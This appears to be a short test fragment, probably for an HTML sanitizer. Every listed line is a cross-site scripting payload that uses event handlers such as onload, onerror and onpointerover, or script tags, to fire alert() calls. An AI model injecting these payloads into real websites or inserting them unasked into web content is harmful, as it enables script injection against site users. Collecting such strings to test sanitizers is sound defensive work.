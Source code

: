 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio"/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type='">x'></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>
# <script>{onerror=alert}throw 1</script>









